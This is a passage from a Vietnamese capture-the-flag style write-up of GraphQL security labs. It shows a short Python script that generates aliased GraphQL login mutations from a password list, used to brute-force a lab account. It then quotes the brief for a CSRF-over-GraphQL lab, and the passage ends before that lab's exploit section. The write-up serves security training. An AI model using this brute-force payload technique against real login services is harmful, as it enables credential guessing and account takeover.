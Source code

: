 ```
    }
```

Ta sử dụng đoạn code sinh payload như sau để gen payload với toàn bộ password lưu sẵn trong file `pass.txt`: 

```python
input1 = "(input:{password: "

input2 = """\\", username: \\"carlos\\"}) {
		token
		success
	}"""

#print(input)
i=0
with open('pass.txt') as f:
    for line in f:
        i+=1
        output = "bruteForce" + str(i) + ":login" + input1 + "\\\"" + line.strip() + input2
        print(output)
```

=> Dùng payload sinh được cho vào Request => Tìm ra password là `buster`

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/68772c5b-d96c-4c55-90b4-9b2ceff78c40)

Đăng nhập vào hệ thống bằng user `carlos:buster` => LAB SOLVED!

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/d306f1f3-845e-483b-8cd7-6ed66dfc2c47)

***

## 5. Lab: Performing CSRF exploits over GraphQL

* Content:
```
The user management functions for this lab are powered by a GraphQL endpoint. The endpoint accepts requests with a content-type of x-www-form-urlencoded and is therefore vulnerable to cross-site request forgery (CSRF) attacks.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address, then upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter.

We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater.

For more information on using InQL, see Working with GraphQL in Burp Suite.
```
* Exploit:
